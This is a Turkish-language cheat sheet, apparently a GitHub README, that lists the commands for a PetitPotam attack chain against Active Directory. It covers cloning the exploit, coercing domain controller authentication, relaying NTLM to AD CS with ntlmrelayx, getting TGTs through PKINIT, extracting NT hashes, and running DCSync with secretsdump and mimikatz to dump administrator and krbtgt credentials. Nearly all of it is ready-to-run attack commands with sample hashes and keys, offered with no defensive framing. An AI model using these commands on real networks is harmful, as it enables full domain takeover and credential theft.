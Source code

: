 Aşağıda PetitPotam saldırısını gerçekleştirmek adına kullanabileceğiniz komutlar ve bu komutların işlevleri bulunmaktadır. Detaylı bilgileri öğrenmek için [bu makalemi](https://tun4hunt.medium.com/ad-csye-ve-petitpotam-saldirisina-ntlm-aktarimi-ec154a1db60d) okuyabilirsiniz.






| Komut | Açıklama | Kullanıcı | Hedef | Notlar |
| --- | --- | --- | --- | --- |
| `git clone https://github.com/topotam/PetitPotam.git` | PetitPotam exploit kodunu indirim | Linux Saldırı Makinası | - | Git kullanılarak yapılır. |
| `python3 PetitPotam.py 172.16.5.225 172.16.5.5` | PetitPotam exploit kodunu çalıştırın | Linux Saldırı Makinası | Hedef (Domain Controller) | Saldırı Makinasının IP Adresi Belirtilir. |
| `sudo ntlmrelayx.py -debug -smb2support --target http://target-domain.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController` | NTLM relay oluşturmak için Impacket aracını çalıştırın | Linux Saldırı Makinası | Hedef (CA Sunucu) | Sunucu sertifika kayıt URL'i belirtilir. |
| `python3 /opt/PKINITtools/gettgtpkinit.py target-domain.LOCAL/TARGET-DC01\$ -pfx-base64 <base64 certificate> = dc01.ccache` | TGT bileti almak için Impacket aracını çalıştırın | Linux Saldırı Makinası | Domain Controller | Base64 sertifika ve ccache dosyası oluşturulur. |
| `klist` | Ccache dosyasının içeriğini görüntüle | Linux Kullanıcı | - | Kerberos bilet bilgilerini gösterir. |
| `python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 target-domain/TARGET-DC01$` | NTLM hash değerleri almak | Linux Saldırı Makinası | Domain Controller | TGS istekleri gönderilir ve hash değerleri alınır. |
| `secretsdump.py -just-dc-user target-domain/administrator -k -no-pass "TARGET-DC01$"@TARGET-DC01.target-domain.local` | NTLM hash değerlerini NTDS.dit dosyasından çıkarmak | Linux Saldırı Makinası | Domain Controller | DCSync saldırısı ve TGT bileti kullanılır. |
| `secretsdump.py -just-dc-user target-domain/administrator "TARGET-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba` | NTLM hash değerlerini NTDS.dit dosyasından çıkarmak | Linux Saldırı Makinası | Domain Controller | DCSync saldırısı ve yakalanan hash değeri kullanılır. |
| `.\Rubeus.exe asktgt /user:TARGET-DC01$ /<base64 certificate>=/ptt` | Pass-the-ticket saldırısı yapmak | Windows Saldırı Makinası | Domain Controller | Makine hesabı kullanılarak TGT bileti alınır. |
| `mimikatz # lsadump::dcsync /user:target-domain\krbtgt` | DCSync saldırısı yapmak | Windows Saldırı Makinası | Domain Controller | Mimikatz kullanılarak DCSync saldırısı yapılır. |


<div align="center">

## Benimle iletişime geçin! 🚀

[![Instagram](https://img.shields.io/badge/-tunahantekeoglu-E4405F?style=for-the-badge&logo=Instagram&logoColor=white)](https://www.instagram.com/tunahantekeoglu)<br>
[![Twitter](https://img.shields.io/badge/-tunahantekeoglu-1DA1F2?style=for-the-badge&logo=Twitter&logoColor=white)](https://twitter.com/tunahantekeoglu)<br>
[![LinkedIn](https://img.shields.io/badge/-tunahantekeoglu-0A66C2?style=for-the-badge&logo=LinkedIn&logoColor=white)](https://www.linkedin.com/in/tunahantekeoglu/?originalSubdomain=tr)<br>

### Ya da Bana Mail Gönderebilirsiniz 📩

[![Email](https://img.shields.io/badge/tunahantekeoglu%40gmail.com-D14836?style=for-the-badge&logo=Gmail&logoColor=white)](mailto:tunahantekeoglu@gmail.com)

## Siber Güvenlik Hakkındaki Yazılarımı Okumak İçin

[![Medium](https://img.shields.io/badge/-tun4hunt-000000?style=for-the-badge&logo=Medium&logoColor=white)](https://medium.com/@tun4hunt)

</div>

---
